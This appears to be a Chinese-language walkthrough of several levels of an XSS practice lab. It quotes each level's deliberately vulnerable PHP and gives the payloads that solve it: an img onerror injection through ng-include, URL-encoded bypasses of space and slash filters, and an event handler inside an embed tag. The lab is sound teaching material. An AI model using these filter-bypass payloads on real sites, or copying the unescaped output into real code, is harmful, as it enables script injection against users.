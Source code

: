 ng-include 指令用于包含外部的 HTML 文件.包含的内容将作为指定元素的子节点.

ng-include 属性的值可以是一个表达式,返回一个文件名.默认情况下,包含的文件需要包含在同一个域名下.

可以认为是文件包含

直接在包含的页面里用 &lt;script&gt; 触发不了,用了 img 标签.

遵循 SOP,调用第一关代码.使用单引号包裹,否则变成注释.

payload: `?src='level1.php?name=test<img src=1 onerror=alert(1)>'`

---

# level 16

```php
<?php
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","&nbsp;",$str);
$str3=str_replace(" ","&nbsp;",$str2);
$str4=str_replace("/","&nbsp;",$str3);
$str5=str_replace("	","&nbsp;",$str4);
echo "<center>".$str5."</center>";
?>
```

这一关过滤了空格,/ 等连接符,用 URL 编码绕过过滤

payload: `%3Cimg%0dsrc=1%0donerror=alert(2)%3E`

---

# level 17

```php
ini_set("display_errors", 0);
echo "<embed src=xsf01.swf?".htmlspecialchars($_GET["arg01"])."=".htmlspecialchars($_GET["arg02"])." width=100% heigth=100%>";
```

这一关将 arg01 和 arg02 的参数分别写入 src 的值中,并过滤了尖括号,导致不能闭合标签.

在 embed 标签中尝试在 arg02 写入事件来触发 XSS.

payload: `arg01=a&arg02=%20onmousedown=alert(1)`

如果一直无法触发,可能是因为无法加载 swf 文件,建议可以换360浏览器做这一题

---

# level 18

```php
<?php
ini_set("display_errors", 0);
echo "<embed src=xsf02.swf?".htmlspecialchars($_GET["arg01"])."=".htmlspecialchars($_GET["arg02"])." width=100% heigth=100%>";
?>
```
